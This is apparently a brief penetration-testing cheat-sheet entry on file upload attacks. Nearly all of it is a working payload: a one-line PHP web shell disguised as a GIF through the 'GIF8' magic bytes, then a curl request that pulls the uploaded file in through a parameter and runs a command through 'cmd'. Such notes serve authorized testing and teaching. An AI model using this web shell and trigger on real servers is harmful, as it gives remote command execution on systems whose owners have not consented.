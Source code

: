 # FileUpload

# GIF8 is for magic bytes
# echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# curl --user-agent "PENTEST" "$URL/?parameter=/path/to/image/shell.gif&cmd=id"
